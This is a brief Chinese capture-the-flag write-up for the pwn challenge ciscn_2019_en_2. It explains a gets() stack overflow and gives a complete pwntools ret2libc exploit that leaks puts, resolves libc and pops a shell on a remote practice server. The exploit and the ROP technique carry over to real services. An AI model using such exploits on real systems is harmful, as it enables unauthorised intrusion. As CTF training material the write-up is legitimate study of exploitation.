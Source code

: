    

## ciscn_2019_en_2

1. main中只能进入encrypt，里面gets函数存在栈溢出，由于没有system和bin/sh，所以考虑ret2libc。

   ![image-20240530213813644](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405302138702.png)

2. EXP：

   ``````python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   p = remote("node5.buuoj.cn",'27301')
   elf = ELF('./ciscn_2019_en_2')
   #获取got、plt地址
   got = elf.got['puts']
   plt = elf.plt['puts']
   print(hex(got),hex(plt))
   #获取传参地址
   pop_rdi_ret = 0x400c83
   #获取返回地址，便于下一次利用栈溢出
   main_addr = 0x400B28
   ret = 0x00000000004006b9
   p.recvuntil(b'Input your choice!\n')
   p.sendline(b'1')
   p.recvuntil(b'Input your Plaintext to be encrypted\n')
   #构造payload，获得puts函数的地址
   payload = b'a'*(0x50+8)+p64(pop_rdi_ret)+p64(got)+p64(plt)+p64(main_addr)
   p.sendline(payload)
   p.sendline(b'1')
   addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
   print(hex(addr))
   libc = LibcSearcher('puts',addr)
   libc_base = addr - libc.dump('puts')
   sys_addr = libc_base + libc.dump('system')
   str_bin = libc_base + libc.dump('str_bin_sh')
   print(hex(libc_base),hex(sys_addr),hex(str_bin))
   
   #第二次利用栈溢出
   p.recvuntil(b'Input your choice!\n')
   payload = b'a'*(0x50+8)+p64(ret)+p64(pop_rdi_ret)+p64(str_bin)+p64(sys_addr)
   p.sendline(payload)
   p.sendline(b'cat flag')
   # 与远程交互
   p.interactive()
   
   ``````

